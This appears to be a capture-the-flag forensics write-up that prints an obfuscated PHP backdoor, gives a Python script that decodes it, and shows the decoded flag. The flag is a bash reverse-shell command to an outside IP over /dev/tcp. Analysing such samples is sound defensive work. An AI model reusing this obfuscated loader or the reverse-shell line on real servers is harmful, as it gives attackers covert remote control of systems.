


## Summary

Challenge **The Obfuscated PHP Malware** from the 2025_SADC-NextGenCyber-CTF CTF, forensics category.

## Statement and artefacts

See the original challenge files and images in this directory.

## Recognition signals

- (see resolution method below)

## Resolution method

# The Obfuscated PHP Malware



```php
<?php
	$x4_ = "n";
	$e_q = "b";
	$xi  = "x";
	$xxx = "_";
	$__u = "e";
		
	$x1 = "4";
	$_1Q = "ed"; 
	$qUx = "oc"; 
	$pp_ = "sa"; 
	$txx = "46"; 
	$ooe = $xi; 	   
	$yt_ = $e_q;	
	$xxq = "ce"; 

	$_em = array(
		$_xx = "x",
		$i_x= $__u
	);

	$こんにちは = "x_x";
	
	$ui = "r";
	$za = "t";
	$vp = "v";
	$le = "s";
	
	$こんにちは = "x_x";

	$mz = $ui.$ui; 
	$gx = $le.$za; 
	$lz = $__u;   
	$hg = $vp;    

	$final = $gx.$mz.$lz.$hg;
	$ver = $final; 

	$こんにちは = "x_x";

	$x_x = $_1Q.$qUx.$_1Q; 
	$yy_ = $txx;	       
	$uvz = $pp_;		   
	
	$f_b = $ver("$x_x");   
	$f_c = $ver("$yy_");   
	$f_d = $ver("$uvz");   
	$f1_ = $e_q.$f_d.$__u.$f_c.$xxx.$f_b; 
		
	$こんにちは = "x_x";

	$最初の = "nEjJ+ADIzQDNvQDOuEj"; 
	$こんにちは = "Tm90aGluZyBoZXJlIQ";
	$トゥー   = "Mx4SN04SM1EzLw";  
	$こんにちは = "Tm90aGluZyBoZXJlIQ";
	$三番   = "NGdvYXZk9CIm4DI";        
	$こんにちは = "Tm90aGluZyBoZXJlIQ";
	$前方へ = "p1CIoNXYidCIj1";       
	$番目   = "CIoNXYi9ibpJ2L";       

	$全て = $最初の.$トゥー.$三番.$前方へ.$番目; 

	
	$過去 = $ver($全て); 
	$三つ = $f1_($過去);
	

	$試す = $xxq; 
	$しよ = $ver($試す); 
	
	$搾取 = $_em[1].$_em[0].$しよ; 
	
	$搾取("$三つ"); 
?>

```

```python
import re, base64

path = "index.php"
txt = open(path, "r", encoding="utf-8", errors="replace").read()

# extrait les morceaux nommés (ici : $最初の, $トゥー, $三番, $前方へ, $番目)
parts = []
for name in ["最初の","トゥー","三番","前方へ","番目"]:
    m = re.search(r'\$' + name + r'\s*=\s*"([^"]+)"', txt)
    if m:
        parts.append(m.group(1))
all_concat = "".join(parts)
rev = all_concat[::-1]
decoded = base64.b64decode(rev).decode(errors="replace")
print("decoded:", decoded)

```



**FLAG:** SADC{exec("/bin/bash -c 'bash -i >& /dev/tcp/151.45.121.84/443 0>&1'")}

## Flag

SADC{exec("/bin/bash -c 'bash -i >& /dev/tcp/151.45.121.84/443 0>&1'")}

## Lessons and reusable patterns

- (see resolution method above)
